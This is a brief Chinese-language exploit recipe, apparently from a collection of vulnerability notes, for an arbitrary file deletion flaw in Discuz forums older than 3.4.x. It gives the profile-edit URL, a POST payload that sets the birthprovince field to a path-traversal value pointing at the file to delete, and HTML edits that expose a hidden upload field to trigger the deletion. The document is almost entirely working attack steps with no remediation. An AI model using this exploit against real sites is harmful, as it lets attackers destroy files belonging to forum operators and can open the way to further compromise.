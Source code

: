 # 任意文件删除漏洞

`Discuz` `<3.4.x`

1. 修改出生地的值为待删除文件路径
    
    ```jsx
    URL http://[ip:port]/home.php?mod=spacecp&ac=profile&op=base
    ```
    
    ```jsx
    POST birthprovince=../../../[target.txt]&profilesubmit=1&formhash=[form_hash]
    ```
    
2. 修改页面元素，打开上传点
    
    ```html
    <form>
    ...
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="[form_hash]"/></p>
    ...
    </form>
    ```
    
3. 上传，替换对应待删文件